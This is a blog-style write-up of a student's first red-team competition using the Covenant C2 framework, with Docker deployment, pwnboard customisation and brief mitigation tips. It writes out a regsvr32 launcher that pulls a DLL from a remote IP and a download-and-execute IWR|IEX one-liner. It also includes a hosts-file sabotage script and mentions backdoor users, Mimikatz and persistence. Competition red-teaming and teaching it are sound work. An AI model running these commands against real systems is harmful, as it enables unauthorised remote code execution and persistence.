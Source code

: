 ```yaml
---
title: Power of Covenant
author: NotoriousRebel
date: 2019-05-01
hero: ./images/pwnboard_image.png
excerpt: Deploying Covenant
---
```

# Using Covenant & Red Teaming 

### Introduction

This past weekend, I had my first ever red teaming experience at 
University of Buffalo called [Lockdown](https://lockdown.ubnetdef.org/).
I knew from the start I would be tackling Windows for this competition; 
however, I wasn't sure what I wanted to do. Did I want to use 
Empire, Metasploit, maybe Pupy? The answer was none of the above.
For this competition I wanted to try out something new.

### Deploying Covenant
I decided to go with [Covenant](https://github.com/cobbr/covenant).
This is a fairly recent C2 that came out a couple months ago
based on the .NET framework and written in C#. An interesting
aspect of this C2 is that it's divided into two parts, Covenant
is the server and [Elite](https://github.com/cobbr/Elite) 
is what interacts with the server. The last part is 
just Grunts, that is just the Implant. 
One of the issues I came across when testing this is out is
how long it took to set up, I just wanted to at the start of the competition
hit a button and have everything I needed. With some help from
Docker I created a docker-compose file to assist me. This 
[file](https://github.com/NotoriousRebel/covDeploy) did the
heavy lifting for me. One really awesome aspect of this C2 was
that we could spin up Covenant on one server and when anyone
ssh'd onto our server it would docker-compose up Elite for them. 
This meant they didn't have to download docker-compose and would make
things centralized. 

![Plan](./images/plan.PNG)


### Using Covenant
Deployment was trivial all we had to do was docker-compose up.

<div className="Image__Medium">
  <img src="./images/easy_deployment.png" alt="Easy-Deployment" />
  <h4 >Docker commands to run to covenant </h4>
</div>


In reality we would want to tack on -d when composing Covenant
to background it. 
Using powershell with a remote session would be too noisy, 
extremely easy to notice, and trivial to kill. 
To make things stealthier I decided to go with registering a dll and utilizing Regsvr32.
As Regsvr32 is developed by Microsoft and in apart of System32
it would look a lot less suspicious. However, this requires
the dotnet framework to be installed on the target machine.
Luckily this is a oneliner that doesn't require a restart.

```powershell
Add-WindowsCapability –Online -Name NetFx3~~~~ –Source D:\sources\sxs
```
The launcher is just a simple one liner, and the icing on the cake
is that we can have our server host the dll file instead of having to get that file
on the target machine.

<div className="Image__Medium">
  <img src="./images/launcher.png" alt="Launcher" />
  <h4 >Using regsvr32 as our launcher </h4>
</div>

```powershell
regsvr32 /u /s /i:http://129.21.228.140/demo.dll scrobj.dll
```
/u: Unregister server calling DllRegisterServer

/s: Silent: display no message boxes.

/i: Since used with /u calls Dll uninstall

scobj.dll: Is the Dllname that the entry points on.

Once ran on the target machine we get a nice beacon back
and can have some fun. For the competition one of the most important
things to do is maintain persistence. Making sure to add backdoor
users, firewall rules, scheduled tasks, and services were essential.
One service that was critical is WinRM to allow us to remotely run
scripts. Making sure it was running was quite simple with 
Covenant.

![Restarting_Winrm](./images/example_powershell.PNG)

Although, in most cases we had those commands in a powershell
file hosted somewhere so we were able to simply do. 
```powershell
(IWR -Uri "https://hostingsite.com" -UseBasicParsing).Content | IEX
```
IWR: Invoke-WebRequest

IEX: Invoke-Expression

It was also fun messing with them by doing very basic things
such as messing with the hosts file in Windows.

```powershell
    $hosts_path = "C:\Windows\System32\drivers\etc\hosts"
    $local = "127.0.0.1"
    $text = @"
    $local      github.com
    $local      termbin.com
    $local      pastebin.com
    $local      tinyurl.com
    $local      bitly.com 
    $local      google.com
    $local	stackoverflow.com
    $local 	raw.githubusercontent.com
    $local 	chocolatey.org
    $local 	docs.microsoft.com
    $local 	wireshark.org
"@ 
    Add-Content -Path $hosts_path -Value $text
```

Of course Covenant had some nice features such as 
GetSystem which allowed us to run things at System level. While
also having standard things such as Mimikatz and Registry 
manipulation. However, a pretty unique feature was the integration of allowing
people to run C# sharp code.

### Customization 

Covenant on it's own is great; however, as part of the
[RITSECRedTeam](https://github.com/RITRedTeam) we like to keep track of things.
One of the most important things is the [pwnboard](https://github.com/micahjmartin/pwnboard).
The pwnboard is a visualization to keep track of what we have control of and to
see what teams are giving us trouble.

![pwnboard-blue](./images/pwnboard.PNG)

To show that you have control of a box is a mere post request with
json that contains the ip and type of beacon. There is one obvious problem,
Covenant doesn't automatically do this. That's ok I was planning on 
learning C#. After talking to the developer to figure out where to 
make the post request to pwnboard whenever a Grunt was created.

![post_req](./images/post_topwnboard.PNG)

This function is inside Covenant/GruntController.cs, 
it just does a post request using the Grunt's ip address 
wrapped inside a try catch statement in case we lose connection.

Due to last minute complications, the dotnet framework couldn't 
be installed on every Windows box so I used a powershell launcher
for all of the boxes as well as the Regsvr32 launcher if possible.
As we could prebake our stuff I was able to deploy to all of the boxes
and watch the beacons rain down as well as turn the pwnboard red.

![pwnboard-red](./images/pwnboard_red.PNG)

At the start of the competition these are just some of the beacons.

![call_backs](./images/call_backs.PNG)

### Mitigation

Monitoring processes and network traffic on your system is 
crucial as it will be much easier to spot when something 
is out of the ordinary. For example if you've never seen
Regsvr32 running on your system before it might be worthwhile
to investigate and you would be shocked at what you find.

![RegsvrImage](./images/procexp_regsvr.PNG)

However, knowing what's going in and out of your network is just as 
important if you opened wireshark and noticed a lot of http
traffic that would be highly suspicious.
For example, if you noticed this http traffic.

![http-traffic](./images/http_traffic.PNG)

Upon noticing this you followed the http stream you would notice this.

![encoded-command](./images/long-command.PNG)

### Take Aways

Although Covenant may seem somewhat limited in what it can
do compared to other C2's such as Powershell Empire
or Pupy. You have to keep in mind this came out about in February, 
regardless Covenant can already do a lot and comes with a vast amount
of rich features that are hard to ignore. 
Overall Covenant is a solid choice for a C2 framework.

References:

[Regsvr32 Info](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32)
